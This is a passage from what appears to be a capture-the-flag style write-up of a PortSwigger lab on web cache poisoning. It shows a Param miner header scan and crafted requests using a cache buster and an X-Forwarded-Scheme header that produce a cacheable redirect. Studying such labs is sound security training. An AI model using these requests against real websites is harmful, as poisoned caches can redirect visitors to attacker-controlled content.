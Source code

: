 For example, let's say a website requires secure communication using HTTPS. To enforce this, if a request that uses another protocol is received, the website dynamically generates a redirect to itself that does use HTTPS: 

```bash
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```

By itself, this behavior isn't necessarily vulnerable. However, by combining this with what we learned earlier about vulnerabilities in dynamically generated URLs, an attacker could potentially exploit this behavior to generate a cacheable response that redirects users to a malicious URL

### PRACTITIONER Lab: Web cache poisoning with multiple headers
In this lab the GET /resources/js/tracking.js route is cached

So we first add a cache buster to the request and then we run Param miner to search for headers that may modify the response

Note: the results of Param miner in Extensions > Param miner > Output are appended to the results of the previous scan. Be careful with that and make sure you are reading the results of the last scan

The results of Param miner's last scan:
```bash
Queued 1 attacks from 1 requests in 0 seconds
Initiating header bruteforce on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net
Identified parameter on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net: x-forwarded-scheme
Completed attack on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net
Completed request with key https0a4c000e046d8adf8538b7ad009c001f.web-security-academy.netGET200script: 2 of 2 in 269 seconds with 18412 requests,0 candidates and 0 findings
```

So we see that it found `x-forwarded-scheme` header
So we try to add it to our request:
```bash
GET /resources/js/tracking.js?cb=fsdfsdfsdf HTTP/2
Host: 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net
X-Forwarded-Scheme: nothttps
```
And in the response we get the redirect:
```bash
HTTP/2 302 Found
Location: https://0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net/resources/js/tracking.js?cb=fsdfsdfsdf
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0
```

